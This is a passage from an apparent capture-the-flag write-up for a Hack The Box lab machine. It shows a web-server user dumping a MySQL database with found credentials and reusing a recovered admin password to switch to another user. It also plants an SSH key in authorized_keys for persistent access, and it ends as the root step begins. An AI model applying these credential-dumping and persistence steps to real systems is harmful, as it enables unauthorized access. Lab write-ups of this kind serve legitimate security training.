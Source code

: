 What can we do now, Let's see if there is anyway to create backup

I found this article (https://support.hostway.com/hc/en-us/articles/360000220190-How-to-backup-and-restore-MySQL-databases-on-Linux)

# Privilege Escalation:~$

## www-data -> theseus:~$


```
1. Back up the database using the following command:

mysqldump -u [username] –p[password] [database_name]
The parameters of the said command as follows:

[username] - A valid MySQL username.

[password] - A valid MySQL password for the user.

[database_name] - A valid Database name you want to take backup.

```

Let's dump the databse Mango

```bash
mysqldump --databases Magic -utheseus -piamkingtheseus
```
we get username and password `admin:Th3s3usW4sK1ng`

```bash
www-data@ubuntu:/$ su theseus
su theseus
Password: Th3s3usW4sK1ng

theseus@ubuntu:/$ whoami && id
whoami && id
theseus
uid=1000(theseus) gid=1000(theseus) groups=1000(theseus),100(users)
theseus@ubuntu:/$ 
```
We are theseus 

For `Stable Shell` write your ssh public key in `/home/theseus/.ssh/authorized_keys`

# theseus -> root:~$

```bash
 ~/htb/boxes/Magic >> ssh theseus@10.10.10.185
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 5.3.0-42-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

29 packages can be updated.
0 updates are security updates.

Your Hardware Enablement Stack (HWE) is supported until April 2023.
theseus@ubuntu:~$ id
```